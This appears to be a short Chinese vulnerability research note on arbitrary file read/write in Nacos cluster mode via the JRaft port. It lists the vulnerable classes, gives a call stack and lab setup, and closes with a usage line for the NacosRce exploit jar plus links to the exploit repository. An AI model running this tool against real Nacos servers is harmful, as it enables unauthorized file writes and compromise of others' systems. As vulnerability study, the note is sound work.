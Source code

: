 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
```

#### NacosStateMachine的onApply调用堆栈



```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

写入成功截图

![iShot_2024-08-26_17.40.21](./iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

<br />

注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
<br />

```shell
java -jar NacosRce.jar http://192.168.90.1:8848/ 7848 write
```

<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

<br />也许是错的，这只是周六的时候临时看了一下
